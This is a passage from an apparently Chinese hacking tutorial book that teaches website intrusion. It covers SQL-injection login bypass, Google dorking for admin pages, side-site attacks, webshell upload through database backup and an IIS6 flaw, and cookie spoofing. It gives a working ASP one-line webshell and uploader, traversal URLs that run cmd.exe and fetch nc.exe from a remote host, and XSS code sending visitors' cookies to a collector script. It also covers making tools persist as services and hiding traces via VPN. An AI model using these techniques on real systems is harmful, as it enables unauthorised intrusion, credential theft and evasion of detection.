  FONT-WEIGHT: bold; FONT-SIZE: 18px; LINE-HEIGHT: 24px
}
.STYLE2 {font-size: 10}
<STYLE>
  .STYLE3 {font-size: 10pt;}
</STYLE>

<META content="MSHTML 6.00.2900.3132" name=GENERATOR></HEAD>
<BODY bgColor=#ffffff leftMargin=0 topMargin=0 MARGINHEIGHT="0" MARGINWIDTH="0"><BR><BR>
<TABLE cellSpacing=0 cellPadding=0 align=center border=0>
  <TBODY>
    <TR>
      <TD colSpan=5 height=20>&nbsp;</TD>
    </TR>
    <TR>
      <TD></TD>
      <TD></TD>
      <TD vAlign=bottom align=middle width=404 background=index/a_04.gif></TD>
      <TD></TD>
      <TD></TD>
    </TR>
    <TR>
      <TD background=index/a_08.gif></TD>
      <TD colSpan=3 height=300>
        <TABLE cellSpacing=0 cellPadding=0 width="95%" align=center border=0>
          <TBODY>
            <TR>
              <TD align=middle><STRONG><FONT size=4>后台管理登录系统</FONT></STRONG></TD>
            </TR>
            <TR>
              <TD>
                <br>
                <table width="100%" border="0">
                  <tr>
                    <td><marquee scrollAmount=2.5 width=537><font color=#007aac><span class="STYLE1"><strong>用户名及密码输入框 <a href="index2.htm">点击登录</a></strong></span></font></td>
                  </tr>
                </table>
                <br>
                <DIV align=center>
                  &nbsp;<strong><font color="#007aac" size="3" face="Geneva, Arial, Helvetica, sans-serif"></font></strong>&nbsp;
                  <STRONG><FONT face="Geneva, Arial, Helvetica, sans-serif" color=#007aac size=3>请输入密码</FONT></STRONG>
                </DIV>
                <DIV align=center>
                  <FORM id=zjsearch name=admin action=admin.asp method=post>
                    <P>&nbsp;&nbsp;<INPUT id=keywords name=keywords><INPUT onclick=searchzf() type=button value="提交" name=Submit2></P>
                  </FORM>
                </DIV>
                <DIV align=center></DIV>
              </TD>
            </TR>
          </TBODY>
        </TABLE>
        <DIV align="center">
          <p class="l150 STYLE3">最后更新时间：2007年8月23日17:00</p>
          <DIV align="center" class="l150 STYLE3"><strong>非管理员请勿尝试非法登录！</strong></DIV>
          <p class="STYLE2">&nbsp;</p>
        </DIV>
      </TD>
    </TR>
  </TBODY>
</TABLE>
</DIV></TD>
<TD background=index/a_10.gif></TD></TR>
<TR>
<TD></TD>
<TD></TD>
<TD align=middle background=index/a_15.gif>版权所有：www.xxx.com</TD>
<TD></TD>
<TD></TD></TR></TBODY></TABLE></BODY></HTML>
```

在本地过滤的一般都是采用Java脚本或VB脚本过滤，我们可以在代码中查找这两个关键字符，此外还有`<script>`脚本标记，说明此处是使用过滤脚本的区域。

查到在哪处过滤的还有一个小窍门，大家不是看到在刚才输入后弹出的警告框中有一段提示字符串吗？这一段字符串是会包含在过滤代码里的，通过这个信息能很快查找到过滤代码所在的位置。

这几个都是主要的查找点，在上面的源码中，可以看到如下代码：

```html
<SCRIPT language=javascript>
function searchz(){
  if (zjsearch.keywords.value==""){
    alert("请输入密码!")
    zjsearch.keywords.focus();
    return false;
  }
  var j=zjsearch.keywords.value.indexOf("=");
  if(j==-1){
    alert("禁止输入敏感字符")
    zjsearch.keywords.focus();
    return false;
  }
  document.zjsearch.submit();
}
</SCRIPT>
```

这段代码对`=`号进行了过滤。我们现在知道了是通过客户端的验证，那就来绕过它吧，思路是去掉这些过滤代码。但是代码的量太多，对于看不懂代码的初学者来说是很难的，这里再教大家一个先进的思路，不要管哪些是要去掉的，只管哪些是要保留的。

在整个提交代码中，`<form></form>`中就是提交的关键，把这一段保留下来，将地址补为完整地址就行了。经修改后，代码最后保留的仅为如下部分：

```html
<FORM id=zjsearch name=zjsearch action=http://www.xxx.com/admin/admin.asp method=post>
  <P>&nbsp;&nbsp;<INPUT id=keywords name=keywords>
  <INPUT onclick=searchz() type=button value="提交" name=Submit2>
  </P>
</FORM>
```

请注意`action=http://www.xxx.com/admin/admin.asp`，是把刚才的admin.asp加上了链接地址`action=http://www.xxx.com/admin/`成为了绝对地址。把改好的代码存为HTML后缀文件，打开后输入`'or''='`为用户名和密码，成功绕过客户端脚本过滤进入后台。

### 19 如何做一名 GOOGLE 黑客

GOOGLE 搜索引擎在黑客中的作用，是能搜索和归纳有用的信息。GOOGLE 在对网站的链接进行分析时，有时能提取出不能在页面中访问到的链接，或是得到隐藏的信息，在查找整站类型等方面拥有不可比拟的作用。巧妙地利用 GOOGLE 这个工具，能让我们的入侵之路变得顺利许多，主要的利用方法有以下几种：

- 1. 比如你掌握了动网 7.1 的漏洞，需要找到大量的网站来利用，在 GOOGLE 搜索框中输入 **Powered by dvbbs 7.1** 就可以搜到大量的版权信息，找到没有被修改的动网 7.1 整站系统，如图 57 所示。


如果想来个一网打尽，在 GOOGLE 里输入 **intext:动网**，将返回所有在网页正文部分包含“动网”的网页。当然，这中间有很多是错误信息，需要分辨出来。

- 2. 在 GOOGLE 中输入 **intitle:后台管理** 能搜索网页标题中是否有我们所要找的字符。如搜索时指定网站加上 site 参数，写成 **"intitle:后台管理 site:www.xxx.com"** 将返回所有网页标题中包含“后台管理”的网页。这一点很有用，可以尝试用来搜索目标网站的后台，如图 58 所示。


- 3. 想判断网站采用的非常见整站系统，可以使用特征文件定位搜索。就是在该整站系统中，找一个文件名比较特别的文件作为特征文件进行搜索。比如找到该网站中一个名为 **O_pictree.asp** 的文件，其它整站可能不会有这个文件名，就搜索 **O_pictree.asp+Powered by**，这样能搜索到网上包含此文件，同时没有去除版权信息的网站，从中分析该网站使用的整站系统。

- 4. **filetype** 是非常有用的参数，它的作用是搜索目标网站中指定内容的文件。比如输入 **filetype:doc site:www.xxx.com** 将返回 www.xxx.com 中所有以 doc 结尾的文件链接，如图 59 所示。


- 5. 搜索我们指定的字符是否存在于 URL 中，例如输入 `inurl:admin`，将返回 N 个类似于这样的链接，与 `site` 参数结合用来找管理员登录的 URL 是很不错的，如图 60 所示。`allinurl` 也同 `inurl` 类似，可指定多个字符。


- 6. 搜索 `link:www.xxx.com` 可以返回所有和 `www.xxx.com` 做了链接的 URL。

- 7. 输入 `site:www.xxx.com` 将返回所有和这个站有关的 URL。重要的是，有一些 URL 是无法在网站的页面上找到的，这一参数常与 `-` 号和 `+` 号配合，进行链接筛选。比如搜出 `site:www.xxx.com asp` 的结果中，有数百个包含 `asp` 的链接，如图 61 所示。比如有 `print.asp` 这个文件的链接，检测后发现该文件没有注入漏洞，想从结果中去除这个文件再进行筛选。我们这次输入 `site:www.nohack.com +asp -print.asp`，这样就可以去掉原来的 `print.asp` 结果，然后通过逐步的排除，渐渐缩小搜索范围，很方便以手工检测注入漏洞。


- 8. GOOGLE 还能进行随机的注入漏洞批量检测。在 GOOGLE 中输入 `asp?id=`，点击搜索，然后把地址栏中此时 GOOGLE 的链接后面也加上 `site:` 参数，指定仅检测与某一网站相关的内容。此外如果把 `http://www.google.cn/search?complete=1&hl=zh-CN&newwindow=1&q=asp%3Fid%3D&btnG=Google+%E6%90%9C%E7%B4%A2&meta=&aq=f` 放入注入扫描工具的搜索地址框，工具就会从结果中获取链接并进行扫描，如图 62 所示。


# 第三章 黑客入侵常用技巧

关于 GOOGLE 黑客的利用主要就是这些方法，如果搜索的结果中没有你想得到的信息，或者返回无结果，不要灰心，只是该网站对 GOOGLE 搜索作了防护，可以到别的站去试试，或许会给你惊喜。

### 20 如何进行旁注入侵？

旁注入侵就是在入侵一个网站不成的情况下，查找和它处在同一服务器的其它网站，然后通过入侵其它网站成功后跳转或是提权进入目标网站。

旁注有专门的工具，DOMAIN 就是其中做得比较好的一款工具，如图 63 所示。集成服务器域名查询，对所有的站批量检测漏洞，直到利用漏洞成功。


图63

运行程序后把要旁注检测的站点域名在“输入域名”栏填入，点击一下右边的“>>”按钮，工具会把这个域名转换为 IP，再点击查询就会将这个 IP 下绑定的域名在左侧显示。在没有工具的情况下我们可以去国际域名注册网查询出同 IP 的域名并作记录，通过网站 http://www.myipneighbors.com/ 手动查询。如图 64 所示，只需要输入域名和验证码，然后按“submit”即可得到结果，如图 65 所示。


图64


图65

在查询出结果之后，一般先对其进行常规检测。常规检测就是上传地址、后台地址、默认数据库地址等信息的获取。这些地址有时能帮助我们入侵，比如有上传漏洞、后台登录漏洞、使用的默认数据库等情况下可利用。还是使用 DOMAIN 工具，点击右侧“网站批量检测”→“载入查询网址”，把刚才查询的网站全都加入待检测项目。由于 DOMAIN 的自动查询功能失效了，所以此处也无法自动导入，只能通过“载入目录地址”逐一手工添加，如图 66 所示。


图66

在工具界面下方有三个项目是需要逐一检测的，上传、数据库和后台。先选中上传，点击全选表示把待测链接全选上，最后点击“开始检测”，如图 67 所示。


图67

工具开始检测，不一会儿出来结果，点击“保存结果”，先把上传的检测结果保存备用。再把下方选择项调至“数据库”，对默认数据库进行检测，方法和“上传”的检测一样，最后也保存结果。检测“后台”的操作方法类似，就不多说了。最后对照保存后的检测结果，按以前学过的方法，对上传漏洞、后台登录漏洞和数据库相关漏洞进行检测。

该工具的常规检测还显得有些像“半自动检测”，对网站注入漏洞的检测则可以算是全自动了。点击“SQL 注入”选项，再选择“批量扫描注入点”－“载入查询网址”，刚才在查询网址时取的网址就都被载入到了这里。此处我们依然只能点击“添加网页”手工添加，如图 68 所示。


图68

点击“批量分析注入点”，工具开始对所有能旁注的站点的注入漏洞进行检测。如果发现可能的注入点，会在最下方的框中以红色链接的方式显示，如图 69 所示。


图69

# 第三章 黑客入侵常用技巧

待扫描完成后双击链接，可对其进行注入，注入的过程和普通工具的方法一样，该工具把注入功能也整合到一起了。点击“SQL 注入猜解检测”，再点击“开始检测”。如果是 ACCESS 库，就猜解表得管理员账号和密码，破解以后找到后台地址登录；如果是 MSSQL 库就查询目录后备份 WEBSHELL。此外该工具还整合有 MD5 爆破，ACCESS 数据库操作器等功能，如图 70 所示。


图70

通过对该工具的运用，几乎可以完成整个旁注入侵，而不需要借助其它第三方工具。

### 21 如何后台备份数据库得到一个 WEBSHELL？

后台备份数据库拿 WEBSHELL 是常用的方法，成功率也高，但是管理员也做了相应的防护，使我们备份 WEBSHELL 遇到不小的难度。这一节用动网 8.0 的备份 WEBSHELL 完整过程来说明怎么解决一些常见的障碍。

先简单回顾一下常用的后台备份 WEBSHELL 过程：

- 1. 上传一个改后缀名为 gif 的 web 木马。  
  这一步有几种变化我提出来讲讲。有的整站程序进行了文件内容过滤，只能上传 gif 文件，这种情况我们可以用图片木马上传绕过；有的整站程序不仅过滤内容，还过滤后缀，连图片木马也无法绕过了，这种情况多半能上传 mdb 数据库文件。我们可使用 access2000 建一个数据库，再建一个表和字段，字段里插入一句话木马，然后上传这个 mdb 文件绕过过滤。
- 2. 找到上传木马的路径和文件名。  
  方法也有很多。作为文章附件上传的，可以在附件上点右键通过属性看到文件名；有的是可以列目录直接看到上传文件；还有些需要用 winsock 抓包看回显的保存文件名。
- 3. 在备份数据库或恢复数据库地址写入木马导出为 ASP。  
  如果是备份数据库插马，风险不大，可以尽管尝试；需要提醒的是有些后台只提供了恢复数据库功能，即只能将你的上传马恢复替换掉当前正在运行的数据库。如果是这种情况就要小心，一旦恢复，网站就打不开了，必须确保一次成功。

以上是常见的备份数据库思路，那么针对以上几点动网 8.0 又作了哪些防护呢？通过分析研究，主要的障碍设置在上传文件这一关，它不仅常规地过滤了文件内容和后缀，而且连 mdb 文件也不让上传，并且备份数据库的后缀必须为 mdb，这一点使我们绕过上传的最后一种办法被堵死了。但是我们还有办法突破，可以利用 IIS6.0 的解析文件漏洞得到 WEBSHELL。

简单地来说，在 IIS6.0 中如果一个名为 x.asp 的目录下有一个任何后缀名的文件（无论是 gif、mdb 还是 txt），都会以这个目录名的后缀（.asp）来解析。

思路有了，整理一下绕过的过程：

- 1. 把插了马的数据库文件改名为 txt 上传。之所以选择插马的数据库是因为备份时程序会检测到不是数据库文件，如果不是就不会备份。这一步没问题，通过！
- 2. 找到上传木马的路径和文件名，这个不是问题，很多办法，通过！
- 3. 这是最关键的一步，动网数据库在导出时是允许设置保存的目录名的，我们改成 x.asp，然后导出为 mdb 后缀文件，这符合动网整站中限制的只能导出为 mdb 后缀，但同时又利用了 IIS6.0 的以目录名后缀解析文件漏洞，通过！

下面我们开始操作，先找一个数据库木马，这种有很多，可以用“风尘浪子数据库木马”，也可以用“蓝鱼动网空数据库合并器”自己做一个。将数据库木马改为 txt 后缀上传，进后台到“文件管理”－“上传文件管理”－“快速查询”，选择查询条件为“最近 24 小时内上传的附件”，找到文件名，如图 71 所示。


图71

接下来就是备份数据库，在后台找到“数据处理”－“备份数据库”。在“当前数据库路径（相对路径）：”里填上刚才看到的上传木马文件名，在“备份数据库目录（相对路径）：”里填上 x.asp；在“备份数据库名称（填写名称）：”里填上 x.mdb，如图 72 所示。


图72

最后自然是把这个 x.asp/x.mdb 的备份 WEBSHELL 链接放到一句话马提交端进行提交，这样就可以得到大马了，如图 73 所示。思路一旦打通，WEBSHELL 自然来。


图73

# 第三章 黑客入侵常用技巧

### 22 一个经典的 COOKIE 欺骗进入后台的例子

有时我们得到了网站的 MD5 加密的密码和用户名，可是无法破解，这个时候可以尝试一下进行 COOKIE 欺骗，直接用 MD5 散列进后台，看看能否成功。

COOKIE 注入的成功率是比较低的，它需要同时具备两个条件：

- 1. 后台是使用 COOKIE 验证。我们可以从后台管理文件源码中搜寻关键字 `session`，如图 74 所示，如果有，说明使用的是 session 验证，这种情况就无法使用 COOKIE 欺骗了。
- 2. 要具有 COOKIE 验证方面的漏洞。这个判断比较复杂了，要有一定的脚本编程能力，结合代码的漏洞构筑相应的 COOKIE。作为我们菜鸟，只需要依据第一条，通过源码判断是用的 COOKIE 验证就该试试 COOKIE 欺骗进后台的方法。


不过现在对于 COOKIE 欺骗的利用方法都说的不是很详细，这一节就用一个例子来简单介绍 COOKIE 欺骗的利用方法。

我们通过注入只得到了该网站的 MD5 散列 21232f297a5dfd，无法得到明文，同时该套整站的 COOKIE 验证存在漏洞，只要在 COOKIE 中把用户等级的参数 admindj 的值设为 1，同时结合正确的 MD5 密码散列就可以直接进后台管理。

先用老兵 COOKIE 利用工具打开后台管理登录页面，如图 75 所示。


然后点击上面的按钮，在“Cookies”栏后的空白处加上 `admindj=1; adminuser=%27or%27%3d%27or%27; adminpass=21232f297a5dfd`，如图 76 所示。

```text
admindj=1; adminuser=%27or%27%3d%27or%27; adminpass=21232f297a5dfd
```


> `%27or%27%3d%27or%27` 是“or'='or'”的 URL 编码格式，这里涉及到 COOKIE 语法，在构筑 COOKIE 内容时如果有特殊字符就要进行转换。另外，多个不同的 COOKIE 参数之间要用 `;` 号隔开。

输入完毕后，我们在地址栏中直接输入该整站后台首页文件名 admin.index.asp。刷新一次页面，会惊奇地发现我们已经进入了后台，如图 77 所示。


剩下的事就是利用备份数据库功能获取 WEBSHELL 了，如图 78 所示。


以上就是 COOKIE 欺骗的简单利用，由于它涉及到有针对性地寻找 COOKIE 验证的漏洞，需要经验来构筑 COOKIE 语句，对于初学者来说还属于比较难的黑客技法，这里只演示其利用过程。

### 23 怎么使用一句话木马？

一句话木马在入侵中发挥着巨大的作用，正是因为它小，所以在很多情况下得用它来搞定 WEBSHELL。比如你得到一个注入点要备份一个 WEBSHELL，首先使用的就应该是小马。因为小马在备份时不容易导致出错，而那种几十 K 大小的大马有可能会因为网络线路质量、脚本执行时间等原因出错；如果网站中进行了特殊符号过滤，我们就必须要对木马代码进行修改，而修改一句话马也远比修改一个正常的 WEB 木马的工作量要小得多。

此外，如 config.asp 文件插马获得 WEBSHELL、数据库插马获得 WEBSHELL 等入侵手段，都只有小马能胜任，很难想象长达数十行的大马被写入 config.asp 文件或数据库后还能正常运行而不出错。

# 第三章 黑客入侵常用技巧

一句话马不能像大的 WEB 木马一样有齐全的功能，它的作用只是用来上传大的 WEB 木马而已。当一句话马被成功地写入 WEB 目录后，通过本地提交能很容易地上传大的 WEB 木马。

```asp
<%execute request("123")%>
```

这一行代码就是一句话木马，123 是连接密码，可以自己设置。将其存为 ASP 后缀文件，上传到网站上就能发挥作用。例如小马地址为 `http://www.xxx.com/1jiu.asp`，先访问一下，测试写入成功与否、是否正常运行；如果出现如下提示：


说明写入成功，运行正常。现在开始用客户端把大马提交上去，大马的代码如下：

```html
<form action=http://www.xxx.com/1ju.asp method=post>
<textarea name=123 cols=120 rows=10 width=45>
set IP=server.createObject("Adodb.Stream")
IP.Open
IP.Type=2
IP.CharSet="gb2312"
IP.writetext request("pctest")
IP.SaveToFile server.mappath("test5.asp"),2
IP.Close
set IP=nothing
response.redirect "test5.asp"
</textarea>
<textarea name=pctest cols=120 rows=10 width=45>这填写的代码</textarea><BR><center><br>
<input type=submit value=提交>
```

这段代码中有几处要根据具体情况进行修改，将第一行中的 `http://www.xxx.com/1ju.asp` 改为你的地址；将第二行的 123 改为你的密码，点击“提交”就可以在网站下生成 TEST5.ASP 文件。这个就是你刚才提交上去的大马，代码中的两处 `test5.asp` 如果改成别的，就是你上传后的文件名，也可以自定义的，如图 79 所示。


将代码存为 HTML，打开后，在“这填写的代码”处将一个 WEB 木马的代码复制到里面。一切设置好后点击提交，稍等一会儿我们的大马就上传成功了，并且会自动跳转到大马的登录页面，如图 80 所示。


## 24 如何在URL中跳转目录？

跳转目录指的是利用某些漏洞，从 URL 当前所在的目录非法访问到其它目录的文件。请注意这种访问不是正常的 Web 语言脚本执行访问，而是会引发安全问题的异常访问。

如果你当前位于 `http://www.xxx.com/down.asp`，转而访问 `http://www.xxx.com/vip/index.asp`，这当然不能算是我们要讲的跳转目录访问。

早期的跳转目录访问源自二次解码漏洞，利用一些需要进行二次解码的十六进制字符精心构造的 HTTP 请求，攻击者能够绕过 IIS 的安全检查机制并访问 WEBROOT 目录以外的资源。

比如攻击者可以把发往 WEB 服务器的 HTTP 请求中的反斜线字符 `\` 写成十六进制的 `%5c`，再把 `%` 进行十六进制编码得到 `%25`，于是对字符串 `%255c` 进行两次解码，就能够得到一个反斜线字符。

```text
http://www.xxx.com/vip/..%255c..%255cwinnt/system32/cmd.exe?/c+dir+c:\
```

这一语句提交后，会在 IE 浏览器中看到 CMD 命令列出 C 盘下所有文件和文件夹的结果。更进一步甚至可以利用漏洞上传工具，与 TFTP 结合使用。

```text
http://www.xxx.com/vip/..%255c..%255cwinnt/system32/tftp.exe?"-i"+212.11.25.3+GET+nc.exe C:\nc.exe
```

这一语句使得 WEB 服务器通过 TFTP 工具从远程 IP 为 212.11.25.3 的主机上下载 NC 并保存到 C 盘。

以上的例子很经典地诠释了 URL 跳转目录的含义。除了这种早期的利用方法，在现今的脚本系统中，同样也可能存在 URL 跳转目录的漏洞。

```text
http://www.xxx.com/user0409/index.asp?type=news.asp
```

```text
http://www.xxx.com/user0409/index.asp?type=../../conn.asp
```

该链接提交访问后，会在 IE 浏览器中显示出数据库链接文件 CONN.ASP 的内容，或是直接下载 CONN.ASP。例如新云整站管理系统 2.1 就曾在 flash 下载文件的参数中存在跳转目录漏洞，只需在 URL 中提交 `flash/downfile.asp?url=uploadfile/../../../conn.asp` 即可下载网站的数据库链接文件 conn.asp，如图81所示。


得到数据库连接文件后，可以下载数据库或得到账号连接数据库。小小的 URL 跳转目录的危害决不仅仅像它字面上所能理解的只是“跳转目录”而已。

## 25 命令行下如何设置计算机网络？

一般我们对网络环境进行配置，都是在图形的操作界面下，依次选择“控制面板”－“网络和 Internet 连接”－“网络连接”，如图82所示。


图82

在其中的连接上按鼠标右键选择“属性”，再选择“网络”标签项，双击“Internet Protocol（TCP/IP）”，在设置中更改相关的设置，如图83所示。


图83

主要设置的有 IP 地址、网关、子网掩码这三项，如图84所示。


图84

如果一台没有上网的电脑要上网，最主要就是要填好这三个参数。在入侵中常遇到一种情况，就是数据库的服务器是无法上网的，想要上传木马来控制都无法实现。可是设置上网的方法一般介绍的都只在图形界面下，虽有思路可是不知方法。

其实在命令行下同样可对相关项进行设置，可以利用这个功能来让并没有上网的 MSSQL 数据库上网（当然前提是该主机在内网中不是封闭环境，而是处于能上网的网关中），从而渗透整个网络。

在命令行下设置网络，用到的是 **netsh** 命令，该命令可以对主机 IP、网关、DNS 等事关上网的参数进行配置。首先我们需要建立一个脚本文件，然后把这个脚本文件通过注入点写入到数据库主机上，接着通过 CMDSHELL 调用 netsh 执行这个脚本配置，完成对网络设置的改写。

先建立一个内容如下的文档，保存后缀为 `.sh` 的文件：

```text
interface ip
set address name="本地连接" source=static addr=192.168.1.2 mask=255.255.255.0
set address name="本地连接" gateway=192.168.1.1 gwmetric=1
```

此处保存为 hack.sh。解释一下这个设置中的参数：address name 后面是连接名；addr 是 IP 地址；mask 是子网掩码；gateway 是网关；gwmetric 是默认网关的跃点数。你在入侵中分配的 IP 地址、网关等信息，需要分析服务器所处网络环境，具体情况请具体分析后设置。

然后通过注入点执行命令 **netsh exec hack.sh**，即将这个设置好的配置刷新了。通过 **ipconfig -all** 命令可以看到网络设置已经改变了，如图85所示，现在就可以尝试上传木马，看能否得到主机的 SHELL 了。


## 26 如何使用命令行添加服务？

很多好用的工具，往往不支持以服务启动，下次重新启动后，就不会再运行，例如 NC 的反弹 SHELL。其实我们能手工将其注册为服务，下次随计算机一起启动。

系统服务跟以下几个注册表项目相关：

```text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services
HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Services
```

通过对这三处注册表按照原规范导入相关值，我们就能手工添加服务了。但是请注意，在 WindowsXP、Windows2003 和 Windows2000 下添加服务时稍有不同，下面会给大家详细讲解。

添加服务的操作其实很简单，建一个文本，按注册表文件格式写入以下数据：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SRVTEST]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"="%systemroot%\Program Files\hackcn\hack.exe"
"DisplayName"="SRVTEST"
"ObjectName"="LocalSystem"
"Description"="服务测试"
```

解释一下各个键值对应的含义：

- **DisplayName**：想要添加服务的名称
- **Description**：服务的描述
- **ImagePath**：程序的路径，可加入程序的参数
- **Start**：数值包括 0、2、3、4；2 代表自动启动，3 代表手动启动，4 代表禁用服务，0 代表系统对底层设备驱动（一般不需要这个）
- **ErrorControl**：一般为数值 1
- **Type**：数值是 10 或 20，一般应用程序都是 10，其他的对应 20
- **ObjectName**：数值 LocalSystem，显示本地登录

把以上注册表内容存为 hacktest.reg，然后在 CMD 下执行 `regedit /s hacktest.reg`，将其导入注册表，一个服务就添加好了，如图86所示。


图86

以上的添加方法适合于 WindowsXP 和 Windows2003 操作系统，如果是 Windows2000 操作系统则稍微麻烦一点，主要是麻烦在指定程序路径时，Windows2000 要求用 16 进制书写。

我将前面的 `C:\Program Files\hackcn\hack.exe` 路径转换后为 `%43%3A%5C%50%72%6F%67%72%61%6D%20%46%69%6C%65%73%5C%68%61%63%6B%63%6E%5C%68%61%63%6B%2E%65%78%65`，写成 16 进制的代码形式，在前面加上 HEX，去掉字符串中的 `%` 号，得出 `0x433A5C50726F6772616D2046696C65735C6861636B636E5C6861636B2E657865`。

Windows2000 注册表中的形式为每个十六进制字符之间有逗号隔开，并且前面 HEX 后加参数，经变形后最后的注册表结果如下，这就是在 Windows2000 下添加服务的方法。

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SRVTEST]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):43,3A,5C,50,72,6F,67,72,61,6D,20,46,69,6C,65,73,5C,68,61,63,6B,63,6E,5C,68,61,63,6B,2E,65,78,65
"DisplayName"="SRVTEST"
"ObjectName"="LocalSystem"
"Description"="服务测试"
```

## 27 如何盗取COOKIE？

盗取 COOKIE 通常都必须和跨站漏洞结合起来，当我们的目标在访问存在跨站漏洞的页面时，黑客放在其中的盗取访问者 COOKIE 的代码就会被执行。同时在另一个远程服务器上，设有 COOKIE 的接收脚本，盗取的 COOKIE 就被发送到那里保存了下来。黑客经分析研究后，可以破解出密码或者直接 COOKIE 欺骗进入网站的管理后台，因此 COOKIE 盗取是一种很重要的入侵思路。

我们先看看接收 COOKIE 的代码是怎样的，这里提供一段 PHP 的代码作为参考：

```php
<?php
$info = getenv("QUERY_STRING");
if ($info) {
  $info = urldecode($info);
  $fp = fopen("test.txt","a+");
  fwrite($fp, $info."\n\n\n\n");
  fclose($fp);
}
?>
```

将这行代码存为 PHP，上传到支持 PHP 脚本的空间上，它就可以开始工作为我们收集远程传来的 COOKIE 了，并将 COOKIE 信息保存在文件 test.txt 中。

另一端我们需要一个盗取 COOKIE 并传入远程服务器的代码，如 `<script>document.location=http://www.xxx.com/COOKIE.php?'%2Bdocument.COOKIE'</script>`。将此文件存为 HTM 格式，当这个文件被访问时，访问者的 COOKIE 即被发送到 `http://www.xxx.com/COOKIE.php`，也就是之前那个接收端所在的 URL。

记录 COOKIE 的代码也有 ASP 版本的：

```asp
<%
Testfile=Server.MapPath("COOKIE.txt")
Msg=Request("m")
Set fs=server.CreateObject("scripting.filesystemobject")
Set thisfile=fs.OpenTextfile(testfile,8,true,0)
Thisfile.WriteLine(""&msg&"")
Thisfile.close
Set fs=nothing
%>
```

简单说一下，这段代码就是把变量 m 的内容存放到 COOKIE.txt 里。将这段代码存为 cook.asp 放到自己的空间里，远程的提交代码是：`<script>document.location='http://www.xxx.com/cook.asp?m='+escape(document.COOKIE)</script>`。

现在假设我们在一个网站的提交留言处发现了跨站漏洞，如图87所示，就把上面的代码写在留言中发布。只要有人浏览我们发布的帖子，他的 COOKIE 就会被发往我们的空间并被记录下来。我们只需要打开 COOKIE.txt 就可以看到保存的 COOKIE 信息了，如图88所示。


## 28 能否利用 Windows 相关工具帮助入侵？

在 Windows 下有几个工具对我们的入侵是有很大帮助的，因为不用上传其它的黑客工具来实现相同功能。这样做有一个很大的好处，就是可以避免工具被查杀。因此我们在实现某些功能时尽量使用系统自带的工具，一来方便，二来免去了修改成免杀版的烦恼。

例如我们常常在 Windows 启动项写入批处理后想要服务器快些重启，在有权限的情况下上传一个重启工具固然好，不过很有可能被杀毒软件查杀，而 Windows 自身就带有一个重启工具 shutdown.exe，我们只需要输入如下命令即可。

```bash
shutdown.exe -r -f -t 10 -c "请注意，服务器将在十秒后重启"
```

如图89所示，是该工具的参数，执行后会出现一个提示框，倒计时的时间可以自行设置，时间到之后本机将会重启，如图90所示。


如果我们在渗透中需要重启同网中其它的服务器该怎么办呢？可以试试另一个命令 tsshutdn，参数如图91所示。如果操作的服务器是域管理员，它能以这个身份重启域中的其它服务器。


```bash
tsshutdn /reboot /server:服务器名
```

执行命令 `tsshutdn /reboot /server:服务器名` 即可以重启其它服务器，如图92所示。在入侵中用得很多的另一个操作是终止某些程序，pstask 和 pskill 虽然可以做到这一点，但是很遗憾，它们都被杀毒软件列为查杀对象了。其实我们不必用外部的工具来终止程序，用 Windows 自带的来试试吧。

要终止一个程序，就是找到它的进程 ID，然后中止这个 ID 号的进程就行了。我们可以用 tasklist 命令来看进程 PID，如图93所示。

```bash
ntsd -c q -p 1636
```

假设现在要中止图93中名为“soundman.exe”的程序，它的进程 ID 是 1636，我们用 Windows 自带的杀进程工具 ntsd 来终止，输入命令：`ntsd -c q -p 1636`，再用 tasklist 命令来看看是否还存在那个程序，如图94所示。我们已经发现，该进程已经被终止了。在入侵中要养成一个好的偏好，尽量用系统自带的功能和工具来实现我们的目的，不仅方便，还少了很多麻烦事，并能让我们对系统更加了解。


图93


图94

## 29 如何设置VPN？

先说说什么是 VPN，其英文全称是“Virtual Private Network”，翻译过来就是“虚拟专用网络”。我们可以把它理解成是虚拟出来的企业内部专线，它可以通过特殊加密的通讯协议将连接在 Internet 上的、位于不同地方的两个或多个企业内部网之间的主机建立一条专有的通讯线路。这就好比是架设了一条专线一样，但是它并不需要真正地去铺设光缆之类的物理线路。

VPN 在入侵中最大的作用是使我们的行踪难于追查，并使被我们控制的内网服务器冲破防火墙的限制连接到外部，以及在使用内网的情况下让灰鸽子等远程控制木马服务端上线。

下面我们来学习如何设置 VPN。首先到 www.secureix.com 网站申请 VPN 账号，点“sign up”进行申请，如图95所示。


图95

注册的过程就不详细说明了，无非就是填写一些信息，注册完毕后的账号请记牢。现在我们就拥有了一个免费的 VPN 账号了，接下来是在本地建立一个 VPN 拨号程序，并用这个账号登录，便可以使用 VPN 了。

依次选择“控制面板”－“网络和 Internet 连接”－“网络连接”，点击“创建一个新的连接”，如图96所示。


点击“下一步”，在联网方式中选择第二项“连接到我的工作场所的网络”，如图97所示。


再点“下一步”，选择“虚拟专用网络连接”，如图98所示。


再点“下一步”填写公司名，这里可以随便填，就是让你给这个连接取个名字，如图99所示。


点“下一步”后选择“不拨初始连接”，如图100所示。


图100

最后是输入 VPN 主机的 IP 或域名，上面那个网站的 VPN 服务器地址是 66.150.105.18，如图101所示。


图101

最后点击“完成”，在网络连接里多出一个连接，如图102所示。双击后打开，输入刚才注册的账号和密码即可登录 VPN，如图103所示。现在我们再上网，就是在 VPN 的环境中了。


图102


图103

## 怎么利用 MDB 数据库来隐藏 ASP 木马？

对 asp 后缀的数据库进行插马来获得 WEBSHELL 的方法在其它章节我们介绍过，有些朋友也用这个方法来隐藏自己的 asp 马，当作后门来使用。

这种隐藏方法虽然有一定的进步（这种进步体现在 web 目录下不能多文件，而且就算管理员恢复网站程序的备份，通常数据库也是会保留的），但并不能逃过查杀程序的法眼。

# 第三章 黑客入侵常用技巧

常见的“雷克图站长助手”来说，它就有检测 asp 后缀文件的代码，如图104所示。如果 asp 后缀的文件中插入有 web 木马，这是肯定会被发现的。


图104

这一节介绍的方法同样是用数据库隐藏木马，但不同的是使用 mdb 后缀数据库，这样可以避免被查杀工具列入查杀表的可能。

